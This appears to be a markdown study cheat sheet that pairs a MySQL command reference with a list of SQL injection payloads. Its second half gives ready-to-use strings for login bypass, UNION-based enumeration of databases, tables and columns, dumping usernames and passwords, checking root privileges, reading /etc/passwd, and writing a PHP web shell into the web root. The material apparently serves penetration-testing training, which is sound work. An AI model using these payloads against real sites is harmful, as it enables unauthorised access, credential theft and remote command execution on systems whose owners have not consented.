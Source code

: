 # Basics First!

A basics revise for all that need to see it

## MySQL

Command | Description
--- | --- 
***General***
mysql -u root -h <IP/host_addr> -P < Port > -p | to login to mysql database
SHOW DATABASES	| List available databases
USE users |	Switch to database
***Tables***	
CREATE TABLE logins (id INT, ...)	| Add a new table
SHOW TABLES	| List available tables in current database
DESCRIBE logins	| Show table properties and columns
INSERT INTO table_name VALUES (value_1,..)	| Add values to table
INSERT INTO table_name(column2, ...) VALUES (column2_value, ..) |	Add values to specific columns in a table
UPDATE table_name SET column1=newvalue1, ... WHERE <condition> |	Update table values
***Columns***	
SELECT * FROM table_name	| Show all columns in a table
SELECT column1, column2 FROM table_name	| Show specific columns in a table
DROP TABLE logins	| Delete a table
ALTER TABLE logins ADD newColumn INT	| Add new column
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn	| Rename column
ALTER TABLE logins MODIFY oldColumn DATE	| Change column datatype
ALTER TABLE logins DROP oldColumn	| Delete column
***Output***	
SELECT * FROM logins ORDER BY column_1	| Sort by column
SELECT * FROM logins ORDER BY column_1 DESC	| Sort by column in descending order
SELECT * FROM logins ORDER BY column_1 DESC, id ASC	| Sort by two-columns
SELECT * FROM logins LIMIT 2	| Only show first two results
SELECT * FROM logins LIMIT 1, 2	| Only show first two results starting from index 2
SELECT * FROM table_name WHERE <condition>	| List results that meet a condition
SELECT * FROM logins WHERE username LIKE 'admin%'	| List results where the first name starts similar to a given string
SELECT * FROM logins WHERE username LIKE '%a'	| List results where the last name ends similar to a given string 
SELECT * FROM logins WHERE username LIKE '%dmin%' | To check if a string contains the given substring
SELECT * FROM logins WHERE username LIKE 'T_m' | To find first names which start with the letter T , end with the letter m, and contain any single character between e.g., Tom , Tim  
  
## MySQL Operator Precedence
- Division ( / ), Multiplication ( * ), and Modulus ( % )
- Addition ( + ) and Subtraction ( - )
- Comparison ( =, >, <, <=, >=, !=, LIKE )
- NOT ( ! )
- AND ( && )
- OR ( || )

# SQL Injections
  
   ***SQLi Discovery***
  Before we start subverting the web application's logic and attempting to bypass the authentication, we first have to test whether the login form is vulnerable to SQL injection. To do that, we will try to add one of the below payloads after our username and see if it causes any errors or changes how the page behaves:
  
**Payload** | **URL Encoded**
--- | --- 
' |	%27
" |	%22
\# |	%23
; |	%3B
) |	%29
>Note: In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.
  
**Payload** |	**Description**
 --- | ---
***Auth Bypass***	
admin' or '1'='1	| Basic Auth Bypass
admin')-- -	| Basic Auth Bypass With comments
| ***Auth Bypass Payloads***	
***Union Injection***	
' order by 1-- -	| Detect number of columns using order by
cn' UNION select 1,2,3-- -	| Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- -	| Basic Union injection
UNION select username, 2, 3, 4 from passwords-- -	| Union injection for 4 columns
***DB Enumeration***	
SELECT @@version	| Fingerprint MySQL with query output
SELECT SLEEP(5)	| Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- -	| Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	| List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -	| List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	| List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- -	| Dump data from a table in another database
***Privileges***	
cn' UNION SELECT 1, user(), 3, 4-- -	| Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -	| Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -	| Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -	| Find which directories can be accessed through MySQL
***File Injection***	
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -	| Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt'	| Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -	| Write a web shell into the base web directory
  
